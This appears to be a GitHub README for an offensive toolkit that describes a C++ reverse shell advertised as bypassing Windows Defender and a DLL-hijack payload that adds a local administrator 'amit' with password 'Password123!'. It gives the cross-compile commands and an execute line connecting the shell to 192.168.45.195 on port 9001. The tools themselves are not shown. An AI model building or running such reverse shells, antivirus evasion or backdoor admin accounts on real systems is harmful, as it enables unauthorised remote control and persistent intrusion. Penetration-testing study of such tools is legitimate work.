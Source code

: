 ## revshell.cpp
Simple C++ reverse shell, can be used to bypass Windows Defender if we want to get a simple reverse shell from the target.
- Compile in linux with: `x86_64-w64-mingw32-g++ -o rev.exe rev.cpp -lws2_32 -static-libgcc -static-libstdc++`
- Execute: `rev.exe 192.168.45.195 9001`

## newadmin.cpp
Source: https://github.com/gustanini/DLL-Hijack-POC/tree/main 

DLL that will create a new local admin with the username `amit` and the password `Password123!`. 
- Compile in linux with: `x86_64-w64-mingw32-gcc -shared -o backdoor.dll newadmin.cpp` 
